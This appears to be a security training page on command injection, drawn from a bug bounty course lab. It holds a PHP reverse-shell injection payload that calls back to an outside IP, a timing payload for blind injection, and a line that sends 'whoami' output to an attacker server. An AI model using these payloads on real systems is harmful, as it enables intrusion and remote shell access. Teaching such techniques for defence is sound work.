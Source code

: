 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Examples

## Examples

### Basic

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The app takes our input and passes it into a `curl` command which is then `grep`ped (Figure 1.1). We can start simple by just appending a command using `;`, but this gives no output (Figure 1.2). Next, we can try commenting out the `grep` part by using `#` (Figure 1.3).

<figure><img src="../../../../.gitbook/assets/web_ci_basic_1.png" alt=""><figcaption><p>Figure 1: A basic example of a command injection attack.</p></figcaption></figure>

We can also try to achieve RCE[^1] by first checking what technology is used on the app and then getting a payload from a repository such as [PayloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php) (Figure 2).

{% code overflow="wrap" %}
```bash
;php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");'#
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_ci_basic_2.png" alt=""><figcaption><p>Figure 2: Achieving RCE.</p></figcaption></figure>

### Blind

{% hint style="success" %}
**Blind Command Injection** occurs when the attacker does not see the output of the injected commands directly. Instead, they infer the success or failure of the commands through side effects or indirect responses.
{% endhint %}

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time we have the same Network Checker app, but the [previous attack](examples.md#basic) does not work (Figure 3.1). Either something gets filtered, which we can check (Figure 3.2 & 3.3), or we the command is executed but we don't get any output on the front-end.

<figure><img src="../../../../.gitbook/assets/web_ci_blind_1.png" alt=""><figcaption><p>Figure 3: An unsuccessful CI attack.</p></figcaption></figure>

We can try a payload that alters the app's behaviour (similar to [Blind SQLi](../sqli/blind.md)) and see if this works. This can be tested with Burp Suite's Repeater, as it shows the response time in the bottom right corner (Figure 4).

```bash
localhost?q=`sleep 5`
```

<figure><img src="../../../../.gitbook/assets/web_ci_blind_2.png" alt=""><figcaption><p>Figure 4: Confirming a blind CI vulnerability.</p></figcaption></figure>

Next, we can achieve RCE[^2] by spawning up a web server and passing the desired command as a parameter (Figure 5).

```bash
http://172.31.150.94:9999/?q=`whoami`
```

<figure><img src="../../../../.gitbook/assets/web_ci_blind_3.png" alt=""><figcaption><p>Figure 5: Achieving RCE via a blind CI vulnerability.</p></figcaption></figure>

[^1]: Remote Code Execution

[^2]: Remote Code Execution
